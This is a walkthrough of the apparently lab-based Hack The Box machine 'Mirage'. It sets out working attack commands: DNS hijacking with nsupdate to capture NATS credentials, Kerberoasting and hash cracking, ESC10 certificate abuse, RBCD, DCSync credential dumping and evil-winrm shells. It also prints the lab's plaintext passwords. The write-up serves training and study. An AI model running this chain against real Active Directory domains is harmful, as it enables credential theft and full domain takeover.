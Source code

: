 This document provides a detailed walkthrough for the Mirage HTB machine. The exploitation path involves NFS enumeration, DNS hijacking to intercept NATS credentials, Kerberoasting, and a sophisticated Active Directory certificate abuse (ESC10) to achieve full domain compromise.

---

## 1. Initial Reconnaissance

### 1.1. Port Scanning

We begin with a standard `nmap` scan to identify open ports and running services.

```bash
nmap -p- -sV -sC 10.10.11.78
```

The scan reveals typical Active Directory services (Kerberos, DNS, LDAP) and an interesting, less common service on port 4222, identified as NATS.

We discover the domain names `mirage.htb` and `dc01.mirage.htb`. Let's add them to our `/etc/hosts` file.

```bash
echo "10.10.11.78 dc01.mirage.htb mirage.htb" | sudo tee -a /etc/hosts
```

### 1.2. NFS Enumeration

We check for network file shares using `showmount`.

```bash
showmount -e 10.10.11.78
```

This reveals an open NFS share: `/MirageReports`. We mount this share to inspect its contents.

```bash
# Create a mount point and mount the share
sudo mkdir -p /mnt/mirage
sudo mount -t nfs 10.10.11.78:/MirageReports /mnt/mirage
```

Inside the share, we find two PDF files. We copy them to our local machine for analysis.

- `Incident_Report_Missing_DNS_Record_nats-svc.pdf`: This report mentions that the DNS record for `nats-svc.mirage.htb` is missing.
- `Mirage_Authentication_Hardening_Report.pdf`: This report states that NTLM authentication has been disabled, forcing a switch to Kerberos.

---

## 2. Foothold via DNS Hijacking

The missing DNS record for `nats-svc.mirage.htb` presents an opportunity for DNS hijacking. Our goal is to point this hostname to our machine to intercept traffic intended for the NATS service.

### 2.1. Kerberos Configuration

First, we configure our system to use the target's Kerberos realm. We create a `/etc/krb5.conf` file with the following content:

```ini
[libdefaults]
    default_realm = MIRAGE.HTB
    rdns = false

[realms]
    MIRAGE.HTB = {
        kdc = 10.10.11.78
        admin_server = 10.10.11.78
    }
```

### 2.2. DNS Hijacking

We create a file `dnsupdate.txt` with instructions for `nsupdate` to delete the (non-existent) record for `nats-svc.mirage.htb` and add a new one pointing to our IP address.

```
server 10.10.11.78
zone mirage.htb
update delete nats-svc.mirage.htb A
update add nats-svc.mirage.htb 60 A <YOUR_IP>
send
```

Execute the update:

```bash
nsupdate dnsupdate.txt
```

### 2.3. Intercepting Credentials

We set up a fake NATS server on our machine to listen on port 4222 and capture any credentials sent to it. The provided `listen.py` script is perfect for this.

```bash
# Start the listener
python3 listen.py
```

After a short while, a client connects and we capture the credentials for the NATS service:
- **Username:** `Dev_Account_A`
- **Password:** `hx5h7F5554fP@1337!`

---

## 3. User Flag

### 3.1. Enumerating NATS

With the captured credentials, we can now interact with the NATS service. We use the `nats` CLI tool to list available message streams.

```bash
nats stream ls --server nats://mirage.htb:4222 --user Dev_Account_A --password 'hx5h7F5554fP@1337!'
```

This reveals a stream named `auth_logs`. We create a consumer to read from this stream.

```bash
# Create a consumer named 'reader'
nats consumer add auth_logs reader --pull --server ...

# Pull the last 5 messages
nats consumer next auth_logs reader --count=5 --server ...
```

One of the messages contains credentials for a domain user:
- **Username:** `david.jjackson`
- **Password:** `pN8kQmn6b86!1234@`

### 3.2. Kerberoasting for Lateral Movement

Using `david.jjackson`'s credentials, we run BloodHound to analyze the domain's structure and find attack paths. The analysis reveals that we can perform a **Kerberoasting** attack.

```bash
# Get a TGT for david.jjackson
impacket-getTGT mirage.htb/david.jjackson:'pN8kQmn6b86!1234@'
export KRB5CCNAME=david.jjackson.ccache

# Find Service Principal Names (SPNs) that can be kerberoasted
impacket-GetUserSPNs -k -no-pass -dc-host dc01.mirage.htb mirage.htb/ -request
```

This gives us a crackable hash for the user `nathan.aadam`. We save the hash to a file and crack it with `john`.

```bash
john nathan_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

The cracked password for `nathan.aadam` is `3edc#EDC3`.

### 3.3. Getting the User Shell

Finally, we can get a shell as `nathan.aadam`.

```bash
impacket-getTGT mirage.htb/nathan.aadam:'3edc#EDC3'
export KRB5CCNAME=nathan.aadam.ccache
evil-winrm -i dc01.mirage.htb -r mirage.htb
```

We can now read `user.txt` from the user's desktop.

---

## 4. Privilege Escalation to Root (ESC10 Attack)

The final stage involves a certificate-based attack known as ESC10, which abuses weak certificate mappings in Active Directory Certificate Services (AD CS).

### 4.1. The Path Forward

BloodHound analysis reveals the following path:
1.  The user `mark.bbond` has the right to change the password for `javier.mmarshall`.
2.  The account `javier.mmarshall` is disabled but has the right to read the password for the Group Managed Service Account (GMSA) `Mirage-Service$`.
3.  The GMSA `Mirage-Service$` can be used to perform the ESC10 attack.

### 4.2. Executing the Attack

1.  **Enable `javier.mmarshall`:** We use credentials for `mark.bbond` (`1day@atime`, found through enumeration/context) with `bloodyAD` to enable the account, reset its password, and clear its logon hour restrictions.

2.  **Get GMSA Password:** With `javier.mmarshall`'s new password, we use `bloodyAD` again to read the `msDS-ManagedPassword` attribute for the `Mirage-Service$` account, giving us its NTLM hash.

3.  **ESC10 Certificate Abuse:** This is a multi-step process using `certipy-ad`:
    a.  **Get TGT for GMSA:** Use the GMSA hash to get a TGT for `Mirage-Service$`. 
    b.  **UPN Manipulation:** Use the GMSA TGT to update the User Principal Name (UPN) of `mark.bbond` to match the UPN of the Domain Controller (`dc01$@mirage.htb`). This links the user account to the DC.
    c.  **Certificate Enrollment:** Request a user certificate for `mark.bbond`. Because of the UPN change, AD CS issues a certificate that is valid for authenticating as the Domain Controller itself.
    d.  **Revert UPN:** Change `mark.bbond`'s UPN back to its original value.

### 4.3. Resource-Based Constrained Delegation (RBCD)

Now that we have a certificate that allows us to authenticate as the DC, we can configure RBCD.

1.  **Schannel Authentication:** Use `certipy-ad auth -pfx dc01.pfx ...` to connect to the DC over LDAPS using the new certificate.
2.  **Set RBCD:** From the LDAP shell, grant our `Mirage-Service$` account the right to impersonate users on the DC.

---

## 5. Root Flag

With RBCD configured, `Mirage-Service$` can request a service ticket to the DC for any service, impersonating any user.

1.  **Get Service Ticket:** Use `impacket-getST` to request a CIFS service ticket for the DC (`cifs/DC01.mirage.htb`), impersonating the `Administrator` user.

2.  **DCSync:** With the impersonated ticket, perform a DCSync attack using `impacket-secretsdump` to dump all domain hashes.

3.  **Administrator Shell:** Use the dumped Administrator NTLM hash or the cracked password to get a TGT and connect with `evil-winrm`.

```bash
# Get TGT for Administrator using the hash
impacket-getTGT mirage.htb/administrator -hashes <ADMIN_HASH>
export KRB5CCNAME=administrator.ccache

# Get root shell
evil-winrm -i dc01.mirage.htb -r mirage.htb
```

We now have a shell as `NT AUTHORITY\SYSTEM` and can read `root.txt`.
